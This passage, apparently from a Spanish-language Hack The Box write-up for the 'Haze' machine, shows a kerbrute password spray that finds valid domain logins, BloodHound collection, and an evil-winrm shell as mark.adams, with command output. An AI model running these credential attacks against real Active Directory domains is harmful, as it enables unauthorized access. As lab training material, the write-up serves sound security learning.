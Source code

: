 ~~~ bash
kerbrute passwordspray -d haze.htb --dc dc01.haze.htb users.txt 'Ld@p_Auth_Sp1unk@2k24' 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 06/28/25 - Ronnie Flathers @ropnop

2025/06/28 22:43:58 >  Using KDC(s):
2025/06/28 22:43:58 >  	dc01.haze.htb:88

2025/06/28 22:44:00 >  [+] VALID LOGIN:	mark.adams@haze.htb:Ld@p_Auth_Sp1unk@2k24
2025/06/28 22:44:00 >  [+] VALID LOGIN:	paul.taylor@haze.htb:Ld@p_Auth_Sp1unk@2k24
2025/06/28 22:44:00 >  Done! Tested 9 logins (2 successes) in 1.627 seconds
~~~

Podemos autenticarnos como `mark.adams` con la misma contraseña que para `paul.taylor`


## Domain Analysis - Bloodhound

Dado que ahora tenemos un usuario que no posee las restricciones anteriores (podemos comprobarlo intentando las técnicas anteriores). Recolectaremos información del dominio para analizarla con `Bloodhound`

~~~ bash
bloodhound-python -d haze.htb -ns 10.10.11.61 --zip -c All -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
~~~


## Shell as `mark.adams`

El usuario `mark.adams` forma parte del grupo `Remote Management Users`, esto le permite conectarse al dominio con una consola de `powershell`

~~~ bash
evil-winrm -i dc01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'

*Evil-WinRM* PS C:\Users\mark.adams\Documents>
~~~


## Enumerating Group Managed Services Accounts (`gMSA`)

Si vemos los grupos a los que pertenece el usuario `mark.adams`, forma parte de `gMSA_Managers`

~~~ bash
*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami /groups 

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                         Attributes
=========================================== ================ =========================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                     Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                Mandatory group, Enabled by default, Enabled group
~~~